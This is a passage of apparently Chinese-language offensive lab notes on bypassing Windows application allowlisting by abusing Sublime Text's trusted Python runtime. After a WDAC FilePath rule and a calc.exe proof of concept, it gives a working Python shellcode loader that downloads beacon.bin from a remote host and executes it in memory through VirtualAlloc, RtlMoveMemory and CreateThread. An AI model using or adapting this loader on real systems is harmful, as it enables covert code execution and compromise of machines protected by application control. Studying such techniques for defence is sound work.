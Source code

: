 And a fallback FilePath rule for python38.dll like this:

```
<FileRules>
  <Allow ID="ID_ALLOW_A_14" FriendlyName="C:\Program Files\Sublime Text\python38.dll FileRule" MinimumFileVersion="0.0.0.0" FilePath="C:\Program Files\Sublime Text\python38.dll" />
</FileRules>
```

下面存放在 ```%AppData%\Sublime Text\Packages\calc.py```的代码可以弹出一个计算器
```
import subprocess
subprocess.call('C:\\Windows\\System32\\calc.exe')
```

这是一个使用python返回shell的[例子](https://gist.github.com/peewpw/8054a64eb4b5cd007a8431a71d698dc3#:~:text=Raw-,shellcode_x64.py,-%23%2064%20bit%20compatible)

教程修改上面例子，远程加载shell code

这里使用到了requests模块，有可能在lab环境中未安装，可以把requests.py放到下面代码的同级目录
```
import ctypes
import requests

url = 'http://10.10.5.39/beacon.bin'
r = requests.get(url, stream=True, verify=False)
scbytes = r.content

ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p
ctypes.windll.kernel32.CreateThread.argtypes = (ctypes.c_int, ctypes.c_int, ctypes.c_void_p, ctypes.c_int, ctypes.c_int, ctypes.POINTER(ctypes.c_int))

mem = ctypes.windll.kernel32.VirtualAlloc(
	ctypes.c_int(0),
	ctypes.c_int(len(scbytes)),
	ctypes.c_int(0x3000),
	ctypes.c_int(0x40)
	)

buf = (ctypes.c_char * len(scbytes)).from_buffer_copy(scbytes)

ctypes.windll.kernel32.RtlMoveMemory(
	ctypes.c_void_p(mem),
	buf,
	ctypes.c_int(len(scbytes))
	)

handle = ctypes.windll.kernel32.CreateThread(
	ctypes.c_int(0),
	ctypes.c_int(0),
	ctypes.c_void_p(mem),
	ctypes.c_int(0),
	ctypes.c_int(0),
	ctypes.pointer(ctypes.c_int(0))
	)
```
